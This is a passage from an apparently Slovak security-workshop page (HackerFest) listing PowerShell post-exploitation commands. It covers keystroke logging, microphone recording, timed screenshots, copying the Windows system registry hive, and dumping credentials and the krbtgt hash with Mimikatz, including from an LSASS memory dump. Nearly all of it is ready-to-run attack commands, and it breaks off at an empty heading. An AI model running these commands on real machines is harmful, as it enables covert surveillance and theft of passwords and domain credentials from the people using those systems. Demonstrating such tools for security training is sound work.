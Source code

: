 ## And&nbsp;return the&nbsp;results 
$returnValue.ToString()
}

Get-PrivateProfileString2 -File 'C:\Windows\System32\GroupPolicy\gpt.ini' `
                         -Category General `
                         -Key Version
</pre>

### Keylogger

<pre class="lang:ps decode:true">Get-Keystrokes -LogPath C:\HackerFest\keystrokes.txt -Timeout 1 -PassThru</pre>

### Nahrávanie z&nbsp;mikrofónu

<pre class="lang:ps decode:true ">Get-MicrophoneAudio -Length 10 -Path C:\HackerFest\audio.wav</pre>

### Screenshoty

<pre class="lang:ps decode:true">Enable-WindowsOptionalFeature -FeatureName NetFx3 -Online
Get-TimedScreenshot -Path c:\hackerfest\ -Interval 10 -EndTime 14:00
</pre>

### Vykrádanie súborov

<pre class="lang:ps decode:true">Invoke-NinjaCopy -path c:\windows\system32\config\system -localdestination c:\HackerFest\system -verbose
</pre>

### Vykrádanie hesiel z&nbsp;pamäte

<pre class="lang:ps decode:true">Invoke-Mimikatz -DumpCreds # -ComputerName PC2
Invoke-Mimikatz -Command 'sekurlsa::krbtgt' -ComputerName PC2</pre>

Tip: UAC / [LocalAccountTokenFilterPolicy](https://support.microsoft.com/en-us/help/951016/description-of-user-account-control-and-remote-restrictions-in-windows)

### Vykrádanie hesiel z&nbsp;pamäte 2

[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20170813/mimikatz_trunk.zip)

<pre class="lang:ps decode:true"># PowerShell:
Get-Process -Name lsass | Out-Minidump -DumpFilePath C:\HackerFest\

# Mimikatz:
sekurlsa::minidump "C:\HackerFest\lsass_560.dmp"
sekurlsa::logonPasswords</pre>

### Vykrádanie hesiel z&nbsp;pamäte 3
